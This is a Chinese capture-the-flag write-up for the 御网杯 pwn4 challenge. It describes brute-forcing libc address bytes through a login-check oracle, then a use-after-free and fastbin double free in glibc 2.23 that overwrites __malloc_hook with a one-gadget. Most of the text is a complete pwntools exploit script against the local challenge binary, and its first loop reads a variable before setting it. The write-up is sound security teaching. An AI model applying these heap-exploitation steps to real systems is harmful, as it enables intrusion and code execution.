



御网杯pwn4，当时比赛脑子抽了，这个思路被我废弃了。



mian函数就是一个很简单的菜单选择。



register函数的主要部分，在我们创建账户并且输入密码之后就会创建一个小堆，用来放密码长度。以及show函数的地址。

show函数主要用在了login函数



这里show函数要想触发必须要知道里面是什么，当时比赛一直想着是怎么绕过去。但是其实这个show函数的触发没有限制次数其实就是拿来给你爆破用的。

剩下两个函数，delt函数存在uaf，edit函数就是利用结构体里的date数据地址进行寻址改写密码。

利用这里面malloc申请堆块不会初始化拿到两个libc地址。然后利用edit函数进行部分覆盖去爆破一个字节。之后再次去爆破第二个字节。以此类推，两个libc地址用完就释放再次申请，又拿到两个libc地址。以此类推爆破出libc地址。如果直接爆破就是256的6次方，但是这样部分覆盖就是256的6倍。

之后程序有uaf，版本2.23没有tcache，先申请两个0x30的堆块，然后释放。这样就有fastbin里面就有两个0x20，两个0x40。这时候申请0x10。第一个释放堆块的结构体就会成为这个堆块的date区域。更改我们控制结构体的date区域利用uaf就能实现任意地址更改。

后面就是正常打到hook。

```
from pwn import *

context.arch = 'amd64'
#r=remote(')
r = process('./11')
libc = ELF('./libc-2.23.so')
def log(idi,num,txt):
    r.sendlineafter(b'Your choice:',b'1')
    r.sendlineafter(b'Input the user id:',str(idi).encode())
    r.sendlineafter(b'Input the passwords length:',str(num).encode())
    r.sendlineafter(b'the password:',txt)
def reg(idi,num,txt):
    r.sendlineafter(b'Your choice:',b'2')
    r.sendlineafter(b'Input the user id:',str(idi).encode())
    r.sendlineafter(b'length:',str(num).encode())
    r.sendafter(b'Input password:',txt)
def delt(idi):
    r.sendlineafter(b'Your choice:',b'3')
    r.sendlineafter(b'Input the user id:',str(idi).encode())
def edit(idi,txt):
    r.sendlineafter(b'Your choice:',b'4')
    r.sendlineafter(b'Input the user id:',str(idi).encode())
    r.sendafter(b'Input new pass:',txt)
reg(0,0x90,b'a'*8)
delt(0)
reg(1,0x90,b'a'*5)
i1 = 0

while re != b'Login success!\n':
    i1 +=1
    log(0,6,b'a'*5+p8(i1))
    r.recvuntil(b'\n')
    re = r.recvline()
    print(re)
    if i1 ==0xff:
        print(b'lose')
        break
edit(0,b'a'*8+b'a'*4)
re = 0
i2 = 0
while re != b'Login success!\n':
    i2 +=1
    log(0,14,b'a'*12+p8(i2)+p8(i1))
    r.recvuntil(b'\n')
    re = r.recvline()
    print(re)
    if i2 ==0xff:
        print(b'lose')
        break
delt(0)
reg(2,0x90,b'a'*3)
re = 0
i3 = 0
while re != b'Login success!\n':
    i3 +=1
    log(0,6,b'a'*3+p8(i3)+p8(i2)+p8(i1))
    r.recvuntil(b'\n')
    re = r.recvline()
    print(re)
    if i3 ==0xff:
        print(b'lose')
        break
edit(0,b'a'*8+b'a'*2)
re = 0
i4 = 0
while re != b'Login success!\n':
    i4 +=1
    log(0,14,b'a'*10+p8(i4)+p8(i3)+p8(i2)+p8(i1))
    r.recvuntil(b'\n')
    re = r.recvline()
    print(re)
    if i4 ==0xff:
        print(b'lose')
        break
delt(0)
reg(3,0x90,b'a'*1)
re = 0
i5 = 0
while re != b'Login success!\n':
    i5 +=1
    log(0,6,b'a'*1+p8(i5)+p8(i4)+p8(i3)+p8(i2)+p8(i1))
    r.recvuntil(b'\n')
    re = r.recvline()
    print(re)
    if i5 ==0xff:
        print(b'lose')
        break
edit(0,b'a'*8)
re = 0
i6 = 0
while re != b'Login success!\n':
    i6 +=1
    log(0,14,b'a'*8+p8(i6)+p8(i5)+p8(i4)+p8(i3)+p8(i2)+p8(i1))
    r.recvuntil(b'\n')
    re = r.recvline()
    print(re)
    if i6 ==0xff:
        print(b'lose')
        break
r.recvuntil(b'aaaaaaaa')
libc_main = u64(r.recv(6).ljust(8,b'\x00'))
libc_base = libc_main - 0x3c4b78
print(hex(libc_main))
print(hex(libc_base))
reg(4,0x30,b'a'*1)
reg(5,0x30,b'a'*1)
delt(4)
delt(5)
delt(4)

hook = libc_base + libc.sym['__malloc_hook']
one = libc_base + 0xf1247
payload = p64(hook) 
reg(6,0x10,payload)
edit(4,p64(one))
r.sendlineafter(b'Your choice:',b'2')
r.sendlineafter(b'Input the user id:',b'7')
r.sendlineafter(b'length:',b'8')
#gdb.attach(r)
r.interactive()
```

